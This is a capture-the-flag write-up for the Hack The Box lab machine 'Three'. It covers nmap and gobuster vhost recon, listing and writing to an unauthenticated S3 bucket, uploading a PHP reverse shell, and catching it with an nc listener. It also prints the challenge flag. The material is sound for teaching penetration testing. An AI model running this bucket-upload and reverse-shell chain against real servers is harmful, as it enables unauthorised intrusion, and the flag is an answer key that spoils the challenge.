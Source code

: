 ```yaml
---
layout: default
title: Three
---
```


## TL;DR

We find `s3` bucket which we access with invalid credentials. Then we upload webshell to webserver directory, and get the flag.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap](image.png)

We can see that port `22` is opened with *ssh* service, and also port `80` with *apache* service.

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we go to the website, we can see a regular site, and inside we can see it uses domains, as we can see in the mail it uses `thetoppers.htb`.

![domain](image-1.png)

Let's add this to our `/etc/hosts`. 

### Find s3 subdomain and accessing it with invalid credentials

Now we want to find more subdomains, maybe there is something interesting.

For this, I downloaded `SecLists` using this command:
```bash
sudo git clone https://github.com/danielmiessler/SecLists.git
```
and put it inside `/usr/share`, that i'll be able to use it in the future. It has multiple wordlists that can be very useful.

Then, we'll use `gobuster` on `vhost` mode, using this command. Notice the `--append-domain` is important, otherwise it just sends the words from the wordlists, without the original domain:
```bash
gobuster vhost --url http://thetoppers.htb/ -w /usr/share/SecLists/Discovon-5000.txt --append-domain
```

![find s3](image-2.png)

Okay, we find `s3.thetoppers.htb`, which is the bucket of `aws`. let's add it to our `/etc/hosts` file, remember this is only virtual host, so it uses the same ip. 

Now after we want to use the tool `aws` to connect to the bucket. In my case, I needed to install `awscli`, using this command:
```bash
sudo apt install awscli
```

First, we need to configure the credentials using `aws configure` command. In regular state we'll need to put here the real credentials, however, in our case we can login also with invalid credentials.
```bash
┌──(agonen㉿kali)-[~/htb/Three]
└─$ aws configure
AWS Access Key ID [****************a]: bla
AWS Secret Access Key [****************a]: bla
Default region name [a]: bla
Default output format [a]: bla
```

Then, we want to list all available buckets:
```bash
aws --endpoint "http://s3.thetoppers.htb/" s3 ls
```
We specify the endpoint using the `--endpoint` flag, and also note we want all `s3` buckets, using the `ls` command.

```bash
┌──(agonen㉿kali)-[~/htb/Three]
└─$ aws --endpoint "http://s3.thetoppers.htb/" s3 ls                    
2025-10-06 06:27:28 thetoppers.htb
```

Okay, now we want to get all files in the bucket, using this command:

```bash
aws --endpoint "http://s3.thetoppers.htb/" s3 ls "s3://thetoppers.htb/"
```
![bucket files](image-3.png)

### Uploading webshell to webserver folder and get flag

As we can see, it holds the files for the webserver. 
```bash
2025-10-06 06:27:28          0 .htaccess
2025-10-06 06:27:28      11952 index.php
```

Let's upload our `webshell`, that will execute `reverse shell`, and then we'll compromise the webserver.

We uses pentest monkey reverse shell, from here [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

```php
{% include_relative php-reverse-shell.php %}
```

We need to change the `ip` and the `port`, based on our ip and the port we uses to listen using the command `nc -nvlp 770`
![ip and port](image-4.png)

Now, let's upload the `php-reverse-shell.php` using this command:
```bash
aws --endpoint "http://s3.thetoppers.htb/" s3 cp php-reverse-shell.php "s3://thetoppers.htb/"
```

![upload webshell](image-5.png)


And now, set the listener and access the webshell, `http://thetoppers.htb/php-reverse-shell.php`, and go back to the terminal.

![get shell](image-6.png)

I like to paste those commands, it spawns me a normal shell i can work with:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

I execute `find / -name "flag.txt" 2>/dev/null` to find where `flag.txt` is hidden, and this is the result. 
```bash
www-data@three:/$ find / -name "flag.txt" 2>/dev/null
/var/www/flag.txt
```

![flag](image-7.png)

**Flag:*****`a980d99281a28d638ac68b9bf9453c2b`***
